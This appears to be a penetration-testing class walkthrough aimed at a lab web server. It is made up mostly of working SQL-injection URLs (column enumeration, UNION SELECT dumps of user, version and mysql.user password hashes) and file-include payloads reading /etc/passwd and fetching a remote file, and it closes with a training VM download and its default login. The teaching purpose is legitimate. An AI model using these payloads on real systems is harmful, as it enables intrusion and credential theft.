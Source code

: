 http://54.172.112.249/acre2.php?lap=acer' order by 6-- +
---Valid page returned for 5 and 6...error on 7 so we know there are 6 columns



Now we build out the union all select statement with the correct number of columns

Reference:
http://www.techonthenet.com/sql/union.php



http://54.172.112.249/acre2.php?lap=acer' union all select 1,2,3,4,5,6-- +



Now we negate the parameter value 'acer' by turning into the word 'null':
http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,4,5,6-- j

We see that a 4 and a 5 are on the screen. These are the columns that will echo back data


Use a cheat sheet for syntax:
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user(),5,6-- j

http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user(),version(),6-- j

http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user(),@@version,6-- +

http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user(),@@datadir,6-- +


http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user,password,6 from mysql.user -- a




Here we see parameter passing, but this one is actually a yes to question number 3 (reference a file)
http://54.172.112.249/showfile.php?filename=about.txt



See if you can read files on the file system:
http://54.172.112.249/showfile.php?filename=/etc/passwd

We call this attack a Local File Include or LFI.

Now let's find some text out on the internet somewhere:
https://raw.githubusercontent.com/gruntjs/grunt-contrib-connect/master/test/fixtures/hello.txt


Now let's append that URL to our LFI and instead of it being Local - it is now a Remote File Include or RFI:
http://54.172.112.249/showfile.php?filename=https://raw.githubusercontent.com/gruntjs/grunt-contrib-connect/master/test/fixtures/hello.txt


-----------------Some Automated Testing from the strategicsec VM-----------------

##################################################
# You can download the virtual machine from here #
##################################################
https://s3.amazonaws.com/StrategicSec-VMs/StrategicsecUbuntu-v3.zip
user: strategicsec
pass: strategicsec

